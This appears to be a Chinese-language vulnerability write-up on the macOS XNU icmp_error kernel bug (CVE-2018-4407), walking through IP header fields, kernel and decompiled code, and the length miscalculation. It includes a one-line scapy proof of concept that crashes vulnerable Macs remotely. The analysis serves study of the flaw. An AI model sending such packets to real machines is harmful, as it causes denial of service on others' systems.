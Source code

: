 # 一个mac的数据包处理不当的漏洞

## 程序调用

首先程序调用

ip_input_process_list
的
ip_input
来处理ip数据包



#### **IP数据包结构**：



1-1.版本4位，表示版本号，目前最广泛的是4=B1000，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配一个IP地址。

1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。

1-3.服务类型，包括8个二进制位，每个位的意义如下：

​       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）

​       延迟字段：1位，取值：0（正常）、1（期特低的延迟）

​       流量字段：1位，取值：0（正常）、1（期特高的流量）

​       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）

​       成本字段：1位，取值：0（正常）、1（期特最小成本）

​       保留字段：1位 ，未使用

1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。

2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。

2-2.标志3位，他们各自的意义如下：

​       保留段位(2)：1位，未使用

​       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）

​       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）

2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。

3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。

3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。

3-3.头检验和16位，是IPv4数据包头部的校验和。

4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。

5-1.目的地址，32位，同上。

6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。

7-1.用户数据。



ip前面没有问题，问题在可选字段处理

ip_dooptions函数

如果数据出错就调用icmp_error函数

通过设置错误的长度来触发漏洞
## 漏洞分析

在icmo_error里面拷贝了数据包n
向一个固定大小的堆。

```
m_copydata(n, 0, icmplen, (caddr_t)&icp->icmp_ip);
这里网上的分析全搞错了，其实错的不是这里，实际上错的地方是下面的代码。
作者后来也澄清了这个问题 https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407
* header.
*/
icmplen = min(icmplen, M_TRAILINGSPACE(m) -
sizeof(struct ip) - ICMP_MINLEN);
m_align(m, ICMP_MINLEN + icmplen);
m->m_len = ICMP_MINLEN + icmplen; /* for ICMP header and data */

icp = mtod(m, struct icmp *);
icmpstat.icps_outhist[type]++;
icp->icmp_type = type;
if (type == ICMP_REDIRECT)

icp = mtod(m, struct icmp *);函数里面因为长度大于80，所以成了一个负数，导致程序崩溃，这样的话，这个程序
应该是无法利用的，因为变成了一个狙击的问题，但是没有信息泄漏，只能让他崩溃。
```


确认icmplen的长度

```
nlen = m_length(n);



icmpelen = max(tcphlen, min(icmp_datalen,
(oip->ip_len - oiphlen)));
}



通过这一段
th = (struct tcphdr *)(void *)((caddr_t)oip + oiphlen);

if (th != ((struct tcphdr *)P2ROUNDDOWN(th,
sizeof(u_int32_t))))
goto freeit;
tcphlen = th->th_off << 2;
tcphlen长度60
另一个为包裹总长度。




icmplen = min(oiphlen + icmpelen, nlen);
    oiphlen长度为ip结构长度28

```
计算后，这个玩意是不带l链路层的包裹长度88
```
m_getcl(int wait, int type, int flags)
{
struct mbuf *m;
int mcflags = MSLEEPF(wait);
int hdr = (flags & M_PKTHDR);

/* Is this due to a non-blocking retry?  If so, then try harder */
if (mcflags & MCR_NOSLEEP)
mcflags |= MCR_TRYHARD;

m = mcache_alloc(m_cache(MC_MBUF_CL), mcflags);
if (m != NULL) {
u_int16_t flag;
struct ext_ref *rfa;
void *cl;

VERIFY(m->m_type == MT_FREE && m->m_flags == M_EXT);
cl = m->m_ext.ext_buf;
rfa = m_get_rfa(m);

ASSERT(cl != NULL && rfa != NULL);
VERIFY(MBUF_IS_COMPOSITE(m) && m_get_ext_free(m) == NULL);

flag = MEXT_FLAGS(m);

MBUF_INIT(m, hdr, type);
MBUF_CL_INIT(m, cl, rfa, 1, flag);

mtype_stat_inc(type);
mtype_stat_dec(MT_FREE);
#if CONFIG_MACF_NET
if (hdr && mac_init_mbuf(m, wait) != 0) {
m_freem(m);
return (NULL);
}
#endif /* MAC_NET */
}
return (m);
}


#define    MBUF_INIT(m, pkthdr, type) {                    \
_MCHECK(m);                            \
(m)->m_next = (m)->m_nextpkt = NULL;                \
(m)->m_len = 0;                            \
(m)->m_type = type;                        \
if ((pkthdr) == 0) {                        \
(m)->m_data = (m)->m_dat;                \
(m)->m_flags = 0;                    \
} else {                            \
(m)->m_data = (m)->m_pktdat;                \
(m)->m_flags = M_PKTHDR;                \
MBUF_INIT_PKTHDR(m);                    \
}                                \
}

```
可以看到，实际上的data就是pktdat，长度87
写入87-8的地方



### poc

import scapy
from scapy.all import *
send(IP(dst="192.168.31.129",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))

### mac

   
}
v21 = (unsigned __int64)&v7[v18];
result = v21 & 0xFFFFFFFFFFFFFFFCLL;
if ( v21 != (v21 & 0xFFFFFFFFFFFFFFFCLL) )
goto LABEL_64;
result = 4 * (unsigned int)(unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4);
if ( (unsigned int)result < 0x14 )
goto LABEL_64;
v14 = *((unsigned __int16 *)v7 + 1);
v22 = (unsigned __int16)(4 * (unsigned __int8)(*(_BYTE *)(v21 + 12) >> 4));
v23 = (unsigned __int16)result + v10;
if ( v14 < v23 )
goto LABEL_64;

    这里验证了v21（也就是tcp的地址是不是四字对其）
    ip包本身是对其的，mac包不是，加在一起地址怎么可能对其，poc也跑不通

## 桥接会数据转发，所以主机有洞也会崩溃，切记
## 虚拟机中tcp包无法四字接对齐，所以无法使用
```
if ( (_WORD *)((char *)v7 + v9) != (_WORD *)(((unsigned __int64)v7 + v9) & 0xFFFFFFFFFFFFFFFCLL) )
这个地方非要让tcp四字对其，不知道为啥，也不知道为啥实体机器可以（没真机没法测，但是我自己的机器崩了）
```


网上的许多文章有问题，漏洞触发在前面，地址算成负的了，不是mdatacopy
